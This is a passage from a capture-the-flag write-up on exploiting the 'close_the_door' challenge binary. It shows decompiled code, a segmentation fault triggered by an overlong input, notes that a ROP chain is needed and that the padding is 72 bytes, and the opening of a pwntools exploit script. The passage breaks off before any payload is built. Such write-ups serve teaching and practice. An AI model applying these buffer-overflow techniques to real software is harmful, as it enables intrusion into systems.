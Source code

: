 ```
    else {
      if (numeric_input != 0x2a) {
        write(1,local_58,(long)local_5c);
                    /* WARNING: Subroutine does not return */
        exit(0x16);
      }
      local_c = 1;
                    
      write(1,local_78,(long)local_7c);
    }
  }
  hidden_func((ulong)local_c);
```

If I try to run the program in the manner described above, I get the opportunity to provide more input. This triggers a segmentation fault with a long input, so it can be reasonably inferred that we have an overflow.

```
knittingirl@piglet:~/CTF/HTBApocalypse/close_the_door$ ./close_the_door 
Any ideas where to search ❓
> aaaa

1. 🔍 for the secret password
2. Give up 😫
> 42
You found something interesting!
Do you think this is the secret password?
> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault

```

Since NX is enabled, that means that the approach to follow is probably a dynamic ROP chain; see my write-up on Controller if you need more details on how that works. We can use the cyclic trick in pwntools to determine the length of padding required, which is 72. We can also see that the length of payload we can send is almost unlimited. The code to get that is below; just x/s $rsp in the gdb terminal and determine the offset in the cyclic string.

```
from pwn import *

target = process('./close_the_door', env={"LD_PRELOAD":"./libc.so.6"})

#target = remote('138.68.182.108', 32576)

pid = gdb.attach(target, "\nb *hidden_func+244\n set disassembly-flavor intel\ncontinue")



elf = ELF("close_the_door")
libc = ELF("libc.so.6")

print(target.recvuntil(b'Any ideas where to search'))

payload = b'1' * 0xf

target.sendline(payload)

print(target.recvuntil(b'Give up'))

target.sendline(b'42')

print(target.recvuntil(b'Do you think this is the secret password?'))
```